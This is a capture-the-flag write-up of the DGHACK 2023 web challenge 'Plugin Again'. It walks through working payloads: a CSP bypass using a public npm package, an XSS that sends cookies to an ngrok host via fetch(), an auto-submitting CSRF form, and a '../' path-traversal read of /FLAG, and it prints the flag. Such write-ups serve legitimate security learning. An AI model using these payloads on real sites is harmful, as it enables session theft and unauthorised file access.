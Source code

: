 ```yaml
---
title: CTFs | DGHACK_2023 | Web | Plugin Again
author: BatBato
date: 2023-11-30
categories: [CTFs, DGHACK_2023, Web]
tags: [Web,LFI,XSS]
permalink: /CTFs/DGHACK_2023/Web/Plugin_Again
---
```


# Plugin Again

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/53f5fd39-d0f6-4e68-8a16-8b8df5abd9e4)

As written in the description of the challenge, we need to read the content of the `/FLAG` file. We only have access to a URL so we can navigate to the website and we get this:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/4ba20793-474c-43ec-a2ab-847529fcc4d4)

First thing I notice was that there is a menu to see which user is connected:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/539740e1-8e67-41c9-aa72-8ce96d8dc979)

Now that we know that `Johnny` and `admin` are connected, the first thing that came to my mind was `XSS`. If we can run XSS on the website, we can recover both session cookies and so, get authenticated. But if we try some basic `XSS`, we don't get any result. This is due to the [CSP](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) located in the `meta` tag of the `HTML`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/066a3fcf-2503-4c21-955a-9c9ac5bcf4a8)

This header tells us that we can't run `JavaScript` code except from the domain `cdn.jsdelivr.net`. This may not allow us to get our `XSS`, but after a bit of digging, I found [this](https://www.jsdelivr.com/package/npm/csp-bypass). Here we see that we can run  `JavaScript` code like the well-known `alert(1)`.

> It is recommended to run `alert(document.domain)` or `alert(window.origin)` to see if we are executing the script from the current webpage or from a sandbox. More explanation in the `LiveOverflow` video [here](https://www.youtube.com/watch?v=KHwVjzWei1c).
{: .prompt-tip}

So now we can try a basic `XSS` like this one:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/5c9e0437-ca46-4f94-8ad2-adaa59dbb0bf)


And we get the following result:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f4cbbc45-131b-437f-800c-f87f2390073e)

As we can see, the domain is the same as our `URL`. We can now perform an `XSS` to recover a cookie. I used this really basic payload :
```html
<script src="https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.min.js"></script>
<script src="https://unpkg.com/csp-bypass@1.0.2-0/dist/classic.js"></script>
<br csp="fetch('https://4542-195-221-38-254.ngrok-free.app?COOKIE='+document.cookie)">
```

> Don't forget to launch a python (`python3 -m http.server`) server with an `ngrok` (`ngrok http 8000`) to be able to recover the cookie.
{: .prompt-warning}

After a few seconds, we get this result:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/ff292c23-1608-4e4c-a040-f1d3f5d083b0)

We can create a cookie named `session` and set the value to the one we just got. Now we are connected as `Johnny`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/7fcb6ba0-1c61-4cd9-9761-032d6ef53497)

After a while, I couldn't get any other cookie than the one from `Johnny`... The `admin` doesn't seem to look often the blog posts... After reading the posts on the blog, we can see a message from the `admin` talking about sending messages to other users. And now if we look at the connected users, we get a new option, we can contact them:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/52142b84-d646-4e1b-b571-7d87b1769ac3)

But when I send the cookie grabber payload (the one from earlier), I can't interact with the `admin` options because I am not on the local machine:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/dc4d1a09-ea02-4513-9e71-09cb8faee436)

So we need to find a way to ask the admin to do the work for us... If we look at the post, we find this interesting one:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/d2698fc1-adb6-41bb-a05f-b5ab3571a84f)

We then go on GitHub and search for this `JhonnyTemplater` and we find [this code](https://github.com/jhonnyCtfSysdream/JhonnyTemplater/tree/main). We notice that there is a possible `LFI` here:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/6ac5fdb6-707e-4940-84fa-0fb1ba6a0ef6)

We now reaaaaalllly want to enable this plugin. As `Johnny`, we can go to the plugin menu and see that the `activate` button redirects to `/activate-plugin/1`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/830f7de5-ba78-4d43-99ca-8b30fd5e3863)

I tried to redirect the `admin` using `document.location` or `window.open` but without any result... I then found online some people that send a form to another user and use `JavaScript` to automatically complete it. So I used the following payload:
```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="/activate-plugin/1" method="GET">
  <input type="submit" value="Submit request" />
</form>
<script src="https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.min.js"></script>
<script src="https://unpkg.com/csp-bypass@1.0.2-0/dist/classic.js"></script>
<br csp="document.getElementById('csrf-form').submit()">
```

This will basically just send a form with just a submit button to the `admin` user and when he opens the message it will automatically redirect him to `/activate/1` which will activate the plugin.

> I first used `action=http://website-ybnx6z.inst.malicecyber.com/activate-plugin/1`. This worked when I sent the message to myself (`Johnny`) but not to the `admin`.
{: .prompt-warning}

We can now see that we have activated the plugin because we can deactivate it now:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/776c10a8-9a29-4494-bb02-17ba35488427)

Now, we can create a `post` with a `template`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f5af0a91-8745-4975-96c7-f8895b7a692f)

If we intercept the request with `BurpSuite` when we click on `Use template`, we can see this:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/b94cc400-98df-4a27-95ad-41a64a29d8a2)


We can now replace the `theme=funny` by `theme=../../../../../../../FLAG`  and now...

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/e67bc7bc-0301-4f90-addf-920e1b7509fc)

So the flag is `DGHACK{WellD0ne!Bl0ggingIsS0metimeRisky}`. 

> We could have tried to get `RCE`. Indeed, the server is using `Flask` and the `Werkzeug` console (more info [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)). We could have recovered the information in the different files on the server to find the `PIN` and get `RCE` in the `Werkzeug` console.
{: .prompt-info}
